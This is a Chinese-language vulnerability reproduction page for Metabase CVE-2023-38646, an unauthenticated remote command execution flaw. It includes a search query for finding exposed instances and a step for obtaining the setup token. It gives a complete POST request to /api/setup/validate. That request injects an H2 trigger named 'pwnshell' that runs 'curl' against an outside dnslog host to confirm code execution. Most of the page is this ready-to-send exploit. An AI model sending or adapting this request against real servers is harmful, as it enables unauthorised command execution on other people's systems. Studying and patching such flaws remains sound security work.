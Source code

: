 # Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

<a-checkbox checked>Metabase</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Metabase"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347-1913963.png)


验证POC

```http
/api/session/properties
```

![img](../../../.vuepress/public/img/1690629948797-84b0517c-1343-4295-8d06-db47be80b46e.png)

```http
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![img](../../../.vuepress/public/img/1690629991461-bfe3da60-a73a-4d73-b630-f125c3e536ff.png)